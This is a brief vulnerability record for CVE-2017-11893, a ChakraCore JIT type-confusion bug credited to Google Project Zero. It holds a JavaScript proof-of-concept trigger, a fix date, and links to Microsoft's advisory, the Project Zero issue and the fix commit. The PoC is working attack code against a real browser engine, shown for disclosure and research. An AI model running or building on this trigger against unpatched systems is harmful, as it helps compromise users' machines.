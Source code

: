 # CVE-2017-11893

- Fix: Jan 2018
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt(arr, arr2) {
    arr[0] = 1.1;
    Math.max.apply(Math, arr2);
    arr[0] = 2.3023e-320;
}

function main() {
    let arr = [1.1, 2.2, 3.3, 4.4];
    for (let i = 0; i < 10000; i++) {
        opt(arr, [1, 2, 3, 4]);
    }

    Math.max = function () {
        arr[0] = {};
    };

    opt(arr, {});  // can't handle, calls Math.max
    print(arr[0]);
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11893)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1379)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/760822c7bf4ffd5e773da14bc35d9c07d672f0c7)